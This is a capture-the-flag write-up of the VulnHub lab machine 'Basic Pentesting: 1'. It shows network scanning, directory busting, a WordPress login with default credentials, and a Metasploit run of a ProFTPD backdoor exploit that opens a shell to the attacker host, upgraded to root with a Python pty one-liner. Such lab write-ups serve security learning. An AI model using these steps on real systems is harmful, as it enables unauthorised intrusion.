


# Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Release date: 8 Dec 2017\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Series: [Basic Pentesting](https://www.vulnhub.com/series/basic-pentesting,143/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to ennumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to ennumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like user names, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP adress of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```



The scan shows that there are three ports: 21,22 and 80. Usually bu default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.



When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```

(./images/dirb_find.jpg)\

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress the default name and password is "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possiblity to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

(/images/admin_panel.jpg)\

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

(/images/searchsploit_ftp.jpg)\

As shown on the image the search resulted in finding a succesful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

(/images/msfconsole.jpg)\

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we wanna listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

(/images/msfconsole_exploit.jpg)\

As you can see command shell is opened, although there's one small problem, theres no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we goot root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

(/images/pythonroot.jpg)\


### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!


